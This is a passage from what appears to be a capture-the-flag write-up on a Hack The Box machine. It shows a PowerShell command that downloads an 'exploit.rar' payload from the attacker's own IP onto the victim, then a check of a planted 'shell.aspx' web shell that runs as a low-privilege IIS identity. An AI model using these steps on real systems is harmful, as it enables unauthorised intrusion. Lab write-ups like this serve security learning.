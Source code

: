 I use `Invoke-WebRequest` to download **exploit.rar** from my IP address to the victim's machine make sure you are in \Users\luke\Documents\ods.

![image.png](image%2017.png)

```bash
powershell iwr [your tun0 ip]/exploit.rar -outfile exploit.rar
```

I check `re.htb/shell.aspx`

![image.png](image%2018.png)

Now i check my permission on this machine, so i am running under a **low-privilege IIS Application Pool identity** with limited rights.
